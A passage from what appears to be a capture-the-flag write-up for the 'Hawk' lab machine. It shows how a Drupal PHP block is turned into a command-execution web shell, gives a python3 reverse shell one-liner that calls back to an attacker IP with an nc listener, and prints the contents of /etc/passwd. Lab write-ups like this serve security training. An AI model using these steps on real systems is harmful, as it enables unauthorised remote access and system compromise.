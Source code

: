 
Click the `Add blocks` button and give it a name, the php script, change
the `Text format` to `PHP code` and place it on any of the page template
regions:

![220069901.png]({{site.baseurl}}/Images/220069901.png)

Once done, scroll to the bottom and click `Save block`

Now we can browse to the site and add the query string `?cmd=` to any
page and the page contents will display the output of our command. We
wrapped the PHP code in `<pre>` tags so that the shell output formatting
is preserved including new lines.

![220200973.png]({{site.baseurl}}/Images/220200973.png)

Before we go any further, a shell is always easier to use. Testing a few
basic things we can see that Python3 is installed with
`?cmd=which python3`

Referring to our favourite reverse shell cheat sheet we find a working
python3 reverse shell. Start of by setting up a listener `nc -nlvp 1234`

Then in the browser navigate to:

``` 
http://10.10.10.102/?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Replace the Attacker IP and Port with your own and you should get a
reverse shell callback.

As always we upgrade the shell with

``` 
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Once we have a shell we can look at the current users with:

``` 
www-data@hawk: cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```